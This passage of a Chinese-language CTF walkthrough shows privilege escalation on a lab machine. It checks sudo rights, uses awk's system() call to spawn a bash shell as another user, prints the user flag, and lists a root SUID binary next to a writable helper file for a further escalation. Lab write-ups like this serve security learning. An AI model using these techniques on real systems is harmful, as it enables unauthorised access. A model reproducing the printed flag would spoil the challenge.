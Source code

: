 ```shell title="/home/pmccentral/.bash_history"
ls
cd autoScripts/
ls
whoami
ll
ls
cd ..
ls
exit
ls
cd documents/
exit
```

### 尝试提权

```shell title="sudo -l"
(remote) pmccentral@laboratoryuser:/home/pmccentral$ sudo -l
[sudo] password for pmccentral:
Matching Defaults entries for pmccentral on laboratoryuser:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pmccentral may run the following commands on laboratoryuser:
    (laboratoryadmin) /usr/bin/awk
```

尝试利用 awk 实现提权

```shell
sudo -u laboratoryadmin /usr/bin/awk 'BEGIN {system("/bin/bash")}'
```

## User - laboratoryadmin

```shell
laboratoryadmin@laboratoryuser:/home/pmccentral$ whoami
laboratoryadmin
```

### flag - user

```shell
laboratoryadmin@laboratoryuser:~$ cat user.txt
flag{$udOeR$_Pr!V11E9E_I5_7En53}
```

### 尝试提权

对用户目录进行探测

```shell
laboratoryadmin@laboratoryuser:~/autoScripts$ pwd;ls -lah
/home/laboratoryadmin/autoScripts
total 32K
drwxr-xr-x 2 laboratoryadmin laboratoryadmin 4.0K Dec 18 20:16 .
drwx------ 8 laboratoryadmin laboratoryadmin 4.0K Dec 18 16:15 ..
-rwxrwxr-x 1 laboratoryadmin laboratoryadmin    8 Dec 18 20:16 head
-rwsr-xr-x 1 root            root             17K Dec 17 15:40 PMCEmployees
```
